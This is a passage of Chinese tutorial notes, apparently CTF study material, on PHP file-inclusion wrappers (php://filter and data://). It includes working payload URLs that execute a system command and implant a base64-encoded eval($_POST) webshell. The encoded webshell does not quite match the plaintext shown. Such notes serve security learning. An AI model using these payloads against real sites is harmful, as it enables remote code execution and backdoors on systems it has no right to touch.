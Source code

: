 

条件：只是读取，需要开启 allow_url_fopen，不需要开启 allow_url_include；



注意：读取出来的数据是经过`base64`编码后的数据

注意！！！：通过这种读取可以直接包含本页面。。

例如：

如果参数`file_name`是传在index页面。可以通过`php://filter`方法。把`index`页面给包含进来。直接就能读取其base64编码后的源码。

> ps.直接包含当前页面。



[讲解](https://blog.csdn.net/zpy1998zpy/article/details/80585443)



#### 2.	data://

> 需要allow_url_include=On（PHP < 5.3.0）

数据流封装器，和`php://input`很像。不过`php://input`伪协议是通过接收post的值。而`data://`是直接把数据封装在url后面

> 和`php://input`真的很像，其区别就是一个引用post数据，一个把数据封装在了url中



基本格式：

```
data://text/plain;base64,xxxx(base64编码后的数据)
```



##### 命令执行



直接把想执行的命令，通过`base64`编码一下接在后面就好了

编码<?php system('ls')?>

```
http://111.198.29.45:47062/?page=data://text/plain/;base64,JTNDJTNGcGhwJTIwc3lzdGVtJTI4JTI3bHMlMjclMjklM0YlM0U=%2b  (注意编码后的+号要URL编码)
```





##### 传入木马



`base64`加密一句话木马:

```
<?php eval($_POST['name'])?>
```



```
http://111.198.29.45:52340/?page=data://text/plain/;base64,PD9waHAgZXZhbCgkX1BPU1RbeGlhb2h1YV0pOyA/Pg==
```
